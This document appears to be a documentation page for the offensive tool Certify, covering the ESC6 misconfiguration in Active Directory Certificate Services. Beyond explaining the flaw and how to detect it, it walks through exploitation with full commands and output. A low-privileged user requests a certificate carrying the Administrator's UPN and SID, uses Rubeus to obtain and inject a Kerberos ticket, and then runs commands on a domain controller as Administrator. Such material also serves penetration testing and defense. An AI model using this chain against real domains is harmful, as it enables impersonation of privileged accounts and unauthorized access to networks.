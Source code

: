 ```yaml
---
title: 'ESC6 - Request Attribute SAN (EDITF_ATTRIBUTESUBJECTALTNAME2)'
description: 'Exploit the EDITF_ATTRIBUTESUBJECTALTNAME2 CA setting to submit arbitrary Subject Alternative Names and impersonate users'
icon: 'id-card'
sidebarTitle: 'ESC6'
---
```


ESC6 is a misconfiguration in Active Directory Certificate Services (AD CS), which stems from overly permissive certificate authority settings. Specifically, if the `EDITF_ATTRIBUTESUBJECTALTNAME2` setting has been enabled on a CA, any certificate request will allow the requester to submit an arbitrary Subject Alternative Name (SAN) request attribute.

<Info>
Essentially, this enables the `Enrollee Supplies Subject` setting from [ESC1](./esc1-misconfigured-client-authentication) on every certificate template published by the CA.
</Info>

## Strong Certificate Mapping Considerations

However, with the introduction of *Strong Certificate Mapping*, ESC6 is no longer enough to perform privilege escalation in a patched environment. This is because:

<Accordion title="Strong Certificate Mapping Limitations">
- The CA embeds a SID security extension matching the SID of the requesting user
- The SAN specified with this vulnerability involves a special *request attribute* rather than allowing the requesting user to specify the subject details directly
- Since the requesting user has no control over the rest of the subject details, it is unable to supply an arbitrary SID security extension
</Accordion>

<Warning>
Despite this, it is still possible to abuse ESC6 if the SID security extension is omitted due to [ESC9](./esc9-security-extension-disabled-on-certificate-template) or [ESC16](./esc16-security-extension-disabled-on-certificate-authority). This is because the Subject Alternative Name (SAN) extension supports a URL-based format (`tag:microsoft.com,2022-09-14:sid:<sid>`), which contains a SID of its own, and therefore allows strong certificate mapping in the absence of a SID security extension.
</Warning>

## Detection

We can search for certificate authorities with these vulnerabilities using the `enum-cas --filter-vulnerable` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-cas --filter-vulnerable --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate authorities
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Root CAs

    ...

[*] NTAuthCertificates - Certificates that enable authentication:

    ...

[*] Enterprise/enrollment certificate authorities:

    Enterprise CA Name            : CORP-CA01-CA
    DNS Hostname                  : ca01.corp.local
    FullName                      : ca01.corp.local\CORP-CA01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=CORP-CA01-CA, DC=corp, DC=local
    Cert Thumbprint               : CFBDC6826AC074EF86BE7774F959A2FF5F322DDC
    Cert Serial                   : 12D3E574A63DE7854A9E5A1F4CD56490
    Cert Start Date               : 21/05/2025 12.13.47
    Cert End Date                 : 21/05/2030 12.23.46
    Cert Chain                    : CN=CORP-CA01-CA,DC=corp,DC=local
+   User Specifies SAN            : Enabled
    RPC Request Encryption        : Enabled
    Disabled Extensions           : <unknown> (1.3.6.1.4.1.311.25.2)
    Vulnerabilities
+     ESC6                        : The CA allows enrollees to specify SANs.
      ESC16                       : The CA has disabled the security extension.
    CA Permissions
      Owner: BUILTIN\Administrators             S-1-5-32-544

      Access Rights                                     Principal
      Allow  Enroll                                     NT AUTHORITY\Authenticated Users   S-1-5-11
    Enrollment Agent Restrictions : None

    Enabled Certificate Templates:
        ...

Certify completed in 00:00:00.4966358
```
</CodeGroup>

## Exploitation

If we can also identify a certificate template that is vulnerable to [ESC9](./esc9-security-extension-disabled-on-certificate-template) or identify [ESC16](./esc16-security-extension-disabled-on-certificate-authority) on the same certificate authority, we can request any certificate from the CA and include a Subject Alternative Name (SAN) for a target user that we want to impersonate (e.g. `Administrator`).

This can be done using the `request` command from Certify. The SAN can be in either of the formats:
- `UserPrincipalName` (`--upn`)
- `DnsName` (`--dns`)
- `Rfc822Name` (`--email`)

<Info>
The security identifier (SID) of the target user must also be supplied with the `--sid-url` parameter, which is automatically turned into a URL-based SAN string as previously described.
</Info>

<CodeGroup>
```bash Command
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template User --upn Administrator --sid-url S-1-5-21-976219687-1556195986-4104514715-500
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Subject Alt Name(s)     : Administrator, tag:microsoft.com,2022-09-14:sid:S-1-5-21-976219687-1556195986-4104514715-500
[*] Sid Extension           : S-1-5-21-976219687-1556195986-4104514715-500

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.7689651
```
</CodeGroup>

When the certificate has been issued, it is printed to the console in a base64-encoded format. The format is supported by [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) and can be used to authenticate as the target user with the [`asktgt`](/ghostpack-docs/Rubeus-mdx/commands/ticket-requests/asktgt#authentication-methods) command by setting the `/certificate:` parameter to the output certificate.

<CodeGroup>
```bash Command
Rubeus.exe asktgt /user:Administrator /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... /ptt
```

```diff Output
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\Administrator'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGcjCCBm6gAwIBBaEDAgEWooIFfzCCBXthggV3MIIFc6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  CORP.LOCAL
  StartTime                :  02/07/2025 11.07.37
  EndTime                  :  02/07/2025 21.07.37
  RenewTill                :  09/07/2025 11.07.37
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  fsIjncNqfhwgn2G5ixAolw==
  ASREP (key)              :  67CA9CAE3051A4E05EB9CA2B9ED9309C
```
</CodeGroup>

Since the `/ptt` parameter was supplied to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) when requesting the TGT, the ticket has been injected into the Kerberos ticket list, and we should be able to authenticate as the target user and access systems that the target user has access to.

<CodeGroup>
```powershell Command
Invoke-Command -ComputerName DC01 -ScriptBlock {whoami}
```

```bash Output
CORP\Administrator
```
</CodeGroup>